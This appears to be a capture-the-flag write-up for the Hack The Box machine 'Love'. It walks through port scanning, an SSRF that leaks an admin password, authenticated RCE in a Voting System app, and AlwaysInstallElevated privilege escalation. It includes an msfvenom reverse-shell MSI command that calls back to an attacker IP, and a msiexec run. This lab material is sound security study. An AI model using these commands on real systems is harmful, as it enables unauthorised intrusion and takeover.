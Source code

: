```yaml
---
title: "[EASY] HTB-Love"
draft: false
tags:
  - htb
  - windows
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/Love.png)



## Information Gathering
### Rustscan

Rustscan finds bunch of ports open. Some of them I am not sure what they are used for, I would have to look in to it:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/love]
└─$ rustscan --addresses 10.10.10.239 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
<snip>
Host is up, received syn-ack (0.37s latency).
Scanned at 2024-04-24 13:04:31 EDT for 3s

PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
443/tcp   open  https        syn-ack
445/tcp   open  microsoft-ds syn-ack
3306/tcp  open  mysql        syn-ack
5000/tcp  open  upnp         syn-ack
5040/tcp  open  unknown      syn-ack
5985/tcp  open  wsman        syn-ack
5986/tcp  open  wsmans       syn-ack
7680/tcp  open  pando-pub    syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49668/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack
49670/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.68 seconds
```

## Enumeration
### SMB - TCP 445

Null login is not allowed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image.png)


### HTTP(s) - TCP 80 & 443

Website shows a login portal for Voting System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-1.png)

Searchsploit finds several exploits for Voting System. I will look more into this later:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-3.png)

After directory bruteforcing and enumeration, I found several more paths on the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-4.png)

`/admin` is definetly an interesting path.


HTTPs shows forbidden page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-2.png)

However I can still obtain subdomain information from it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-5.png)

## staging.love.htb - TCP 80

`http://staging.love.htb` shows a different page from Voting System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-7.png)

Clicking on **Demo** directs me to **beta.php** where I can submit file url for scanning:

`http://staging.love.htb/beta.php`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-8.png)

I will try making connection to my local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-9.png)

You can see that connection is being made from the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-10.png)

I tried uploading webshell but it won't work since the webapp seems to be not reading the php script:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-11.png)

## Shell as phoebe
### SSRF

Instead of uploading web shell, I wil try accessing internal service running on port 5000:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-12.png)

I can access port 5000 through SSRF and read password for the admin: **@LoveIsInTheAir!!!!**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-13.png)

Weirdly, using the credential won't work on login portal:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-14.png)

However, through `/admin` page, I can successfully sign-in:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-15.png)


### Authenticated RCE

Voting system 1.0 seems to be vulnerable to Authenticated RCE. 


After downloading [payload](https://www.exploit-db.com/exploits/49445), I will edit my setting as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-16.png)

I will also edit the vulnerable to url as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-17.png)

With the netcat listener running, I will run the payload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-20.png)

On my netcat listener, I have reverse shell spawned as **phoebe**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-18.png)


## Privesc: phoebe to Administrator
### AlwaysInstallElevated

After starting smber server through `impacket-smbserver share $(pwd) -smb2support` on the directory where there is winpeas.exe, I will download winpeas to target machine through `copy \\10.10.14.21\share\winpeas.ps1 winpeas.ps1`.

WinPEAS finds AlwaysInstallElevated running:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-21.png)

AlwaysInstallElevated is a setting in the Windows registry that, when enabled, allows non-administrative users to install programs with elevated privileges. This setting is intended for system administrators who want to ensure that certain programs are always installed with administrative rights, regardless of the user's permissions.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-22.png)

I will create payload that will make a reverse shell connection using msfvenom:

`msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1338 -f msi -o rev_shell.msi`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-24.png)

I will the run the payload msi with netcat listener running on my local Kali machine:

`msiexec /quiet /qn /i rev_shell.msi`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-25.png)

Now I have a shell as the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-23.png)

## References
- https://www.exploit-db.com/exploits/49445
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
- https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/